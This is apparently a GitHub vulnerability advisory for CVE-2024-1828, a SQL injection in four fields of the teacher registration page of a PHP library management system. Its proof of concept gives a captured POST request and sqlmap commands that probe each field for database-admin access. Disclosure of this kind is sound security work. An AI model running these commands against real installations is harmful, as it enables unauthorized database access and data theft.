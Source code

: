 # Library System In PHP - SQL Injection (Teacher registration)

### CVE Assigned:
**[CVE-2024-1828](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-1828)** [mitre.org](https://www.cve.org/CVERecord?id=CVE-2024-1828) [nvd.nist.org](https://nvd.nist.gov/vuln/detail/CVE-2024-1828)

### Vendor Homepage:

> https://code-projects.org/

### Software Link:

> [Library System In PHP](https://code-projects.org/library-system-in-php-with-source-code/)

### Version:

> v 1.0

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> /Lms/Source/librarian/user/teacher/registration.php

> Four parameters `email`, `idno`, `phone`, and `username` within teacher registration are vulnerable to SQL Injection.


![email](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/3.3Library-System-In-PHP-Sqli-teacher_registration_email.png)

![idno](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/3.3Library-System-In-PHP-Sqli-teacher_registration_idno.png)

![phone](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/3.3Library-System-In-PHP-Sqli-teacher_registration_phone.png)

![username](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/3.3Library-System-In-PHP-Sqli-teacher_registration_username.png)

### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Proof of Concept:

### SQLMap

Save the following request to `teacheregistration.txt`:

```
POST /Lms/Source/librarian/user/teacher/registration.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://172.16.8.56/Lms/Source/librarian/user/index.php
Cookie: PHPSESSID=4nq5is5jf875uo0a4v5nohv7s7
Content-Length: 175
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Host: 172.16.8.56
Connection: Keep-alive

address=555&email=0&idno=1&lecturer=1&name=TYYHyRvY&password=u]H[ww6KrA9F.x-F&phone=555-666-0606&submit=Register&username=TYYHyRvY
```

Use `sqlmap` with `-r` option to exploit the vulnerability:

```
sqlmap -r teacheregistration.txt --batch --dbms MYSQL --is-dba -p email
```
```
sqlmap -r teacheregistration.txt --batch --dbms MYSQL --is-dba -p idno
```
```
sqlmap -r teacheregistration.txt --batch --dbms MYSQL --is-dba -p phone
```
```
sqlmap -r teacheregistration.txt --batch --dbms MYSQL --is-dba -p username
```


## Recommendations

When using this Library System In PHP, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.
